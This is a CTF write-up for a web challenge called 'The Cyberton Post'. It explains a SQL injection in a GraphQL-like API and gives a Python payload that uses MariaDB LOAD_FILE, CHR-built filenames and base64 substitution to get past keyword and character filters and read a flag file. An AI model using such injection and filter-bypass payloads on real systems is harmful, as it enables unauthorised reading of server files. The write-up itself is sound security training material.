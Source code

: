 # CyberChallenge.IT 2024 - University CTF

## [web] The Cyberton Post (21 solves)

Have a look at my new newspaper website!

The flag is in `/flag_uwu.txt`

P.S.: I think I need a new keyboard

Site: [http://thecybertonpost.challs.external.open.ecsc2024.it:38210](http://thecybertonpost.challs.external.open.ecsc2024.it:38210)

Author: Lorenzo Leonardini <@pianka>

## Solution

The challenge is a simple blog/online newspaper. Posts and their content are fetched using an API that wants to resemble GraphQL, as it allows to specify what data you want from the object you are fetching. However, this feature is vulnerable to SQL injection.

The objective, though, is not to dump the database, but to read the flag from the file `/flag_uwu.txt`.

To complicate the attack, there are some filters in place that completely block the character `u`, as well as some words like `select`, `where`, `hex`, both from the request and the response. We are also informed by a comment that the flag does indeed contain many `U`s.

In mariadb, the file can be easily read with the `LOAD_FILE` function. However, some work needs to be done in order to both escape the `flag_uwu.txt` filename, and the flag leaked by the server.

The full intended payload makes use of base64, with appropriate replaces to escape the `u` and `U` characters with `@` and `!`:

```py
res = requests.post(f'{URL}/api/post/1', json={"fields":["REPLACE(REPLACE(TO_BASE64(LOAD_FILE(CONCAT('/flag_',CHR(0x75),'w',CHR(0x75),'.txt'))), CAST(CHR(0x75) AS VARCHAR(1)), '@'), CAST(CHR(0x55) AS VARCHAR(1)), '!') as flag -- -"]})

flag = res.json()['flag']
flag = flag.replace('@', 'u')
flag = flag.replace('!', 'U')
flag = base64.b64decode(flag.encode()).decode()
```

